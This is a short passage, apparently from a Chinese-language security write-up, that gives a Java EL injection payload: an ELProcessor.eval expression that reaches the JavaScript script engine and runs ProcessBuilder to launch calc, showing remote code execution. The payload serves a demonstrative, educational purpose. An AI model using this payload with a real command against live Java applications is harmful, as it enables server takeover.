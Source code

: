 参数如下：

[![img](assets/202304221640261-172995610105213.png)](https://i.loli.net/2020/08/18/pfgwCZkzHvP9ESU.png)

最终通过el注入实现RCE，反射执行的语句可以整理为如下：

```java
(new ELProcessor()).eval("\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new
java.lang.ProcessBuilder['(java.lang.String[])'](['calc']).start()\")");
```

[![img](assets/202304221640899-172995610105215.png)
